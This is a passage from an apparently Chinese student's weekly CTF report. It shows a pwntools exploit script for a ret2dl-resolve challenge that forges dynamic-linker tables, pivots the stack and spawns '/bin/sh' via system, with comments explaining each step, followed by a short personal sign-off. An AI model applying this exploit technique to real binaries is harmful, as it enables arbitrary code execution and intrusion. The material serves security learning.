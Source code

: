 ```python
fake_dynstr_addr = fake_dynsym_addr + 0x10 #同理
bin_sh_addr = fake_dynstr_addr + 0x7 #/bin/sh在字符串内的相对偏移

n = fake_rel_plt_addr - rel_plt_addr #有点类似数组越界,比如我们有一个b[10],但我们让它去访问*(b+114514)

r_info = (int((fake_dynsym_addr - dynsym_addr)/0x10) << 8) + 0x7 #寻址索引
str_offset = fake_dynstr_addr - dynstr_addr #字符表的偏移


fake_rel_plt = p32(elf.got['read']) + p32(r_info) #got表指针和寻址索引,前者指向read,覆写read的got表指向system,后者指向假的符号表
fake_dynsym = p32(str_offset) + p32(0) + p32(0) + p32(0x12000000)
#符号的名字符串指针 符号地址 符号大小 符号绑定/类型/可见性/段索引 
#其中指针指向我们的假字符表,地址不需要管,因为我们还没绑定上(等下就被覆写了)
#大小应该不需要管(心虚)
#最后的可见性和段索引也不需要管(表示默认可见性和段索引未指定)绑定设为全局(0x1),类型设为函数(0x2)
fake_dynstr = b"system\x00/bin/sh\x00\x00" #符号名(system)和它的参数


pay1 = b'a'*108 + p32(start - 20) + p32(elf.plt['read']) + p32(leave_ret_addr) + p32(0) + p32(start - 20) + p32(0x100) #栈迁移,写到start-0x14的位置(pay2中那一堆表前面的字符的长度为0x14)
p.recvuntil('Welcome to RET_TO_DL~!\n')
#p.recvuntil("Nice to meet you~!\n")
p.sendline(pay1)
sleep(1) #八点了,啊,该摸了(我刚学python的时候曾经干过Sleep(1000)然后查半天程序为啥卡住的事)
pay2 = p32(0x0) + p32(resolve_plt) + p32(n) + b'aaaa' + p32(bin_sh_addr) + fake_rel_plt + fake_dynsym + fake_dynstr #执行resolve_plt(n),并传入伪造的三个表
p.sendline(pay2) #发生payload2,收工
#这堆东西是输出这些值给我们看的
success(".rel_plt: " + hex(rel_plt_addr))
success(".dynsym: " + hex(dynsym_addr))
success(".dynstr: " + hex(dynstr_addr))
success("fake_rel_plt_addr: " + hex(fake_rel_plt_addr))
success("fake_dynsym_addr: " + hex(fake_dynsym_addr))
success("fake_dynstr_addr: " + hex(fake_dynstr_addr))
success("n: " + hex(n))
success("r_info: " + hex(r_info))
success("offset: " + hex(str_offset))
success("system_addr: " + hex(fake_dynstr_addr))
success("bss_addr: " + hex(elf.bss()))
p.interactive()
```

​	那么本次周报就到这里.

​	另外我今天好像有点感冒...大家注意身体.


[^*]: 说到素数,前几天我在写python实验作业,完成一个输出区间内所有素数的程序,上了埃氏筛没过.于是我换成线性筛,结果还是过不了.本来我都打算换c++打表来优化了,结果老师告诉我数据错了... 另外顺便一提,python的题目一般不会有时间复杂度限制